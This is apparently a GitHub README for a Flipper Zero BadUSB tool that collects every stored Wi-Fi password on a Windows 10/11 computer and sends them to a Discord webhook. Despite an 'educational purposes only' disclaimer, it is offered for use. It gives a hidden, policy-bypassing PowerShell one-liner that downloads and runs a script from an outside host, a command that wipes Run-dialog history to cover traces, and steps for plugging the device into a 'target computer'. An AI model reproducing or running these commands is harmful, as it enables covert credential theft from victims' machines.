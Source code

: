 ## :warning: This script was made for educational purposes only and is not meant to be used maliciously.

This script is a wifi stealer that sends every wifi passwords stored on a Windows 10/11 computer to a [discord webhook](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks).

It is made to be used with a [Flipper Zero](https://flipperzero.one/) device, using the [BadUSB](https://docs.flipperzero.one/bad-usb) feature.

# Files
### Powershell script
- `Wifi-Stealer-Discord.ps1` - The main script, commented for readability
### Duckyscript file
- `Wifi-Stealer-Discord_Quick.txt` - A duckyscript version of the script using a minified/efficient version of the script (for Flipper Zero) pulling from webpage powershell script; it also clears run prompt history.

### Dependencies
* An internet connection
* Windows 10,11

# Usage
Replace `https://discord.com/api/webhooks/<channel_id>/<webhook_id>` with your own [webhook url](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks).
### Powershell
```powershell
powershell -w h -ep bypass $discord='https://discord.com/api/webhooks/<channel_id>/<webhook_id>';irm winwifidiscord.remothe.dev | iex

powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue" | iex
```

### Flipper Zero
1. Copy the `Wifi-Stealer-Discord_Quick.txt` file to the Flipper Zero in the `badusb` folder, directly to the microSD card or using the [Flipper Zero app](https://docs.flipperzero.one/mobile-app) *(Android/iOS)* or [qFlipper](https://docs.flipperzero.one/qflipper) *(Windows/Linux/MacOS)*
2. Plug the Flipper Zero to the target computer
3. You must have internet access in order for the .txt file's script in order to connect to the last bit `winwifidiscord.remothe.dev` and allow it to execute.
4. Run the script from the Flipper Zero in the `Bad USB` menu

# Result
![image](https://github.com/user-attachments/assets/b780eb21-5353-4df1-848f-64ebcf47cb9e)

## Credits

- [RemoTheDev](https://remothe.dev) - Modified script and deleted redundancies for subjectively more efficient use and less space.
- [AlexZeGamer](https://gist.github.com/AlexZeGamer) - BadUSB script foundation
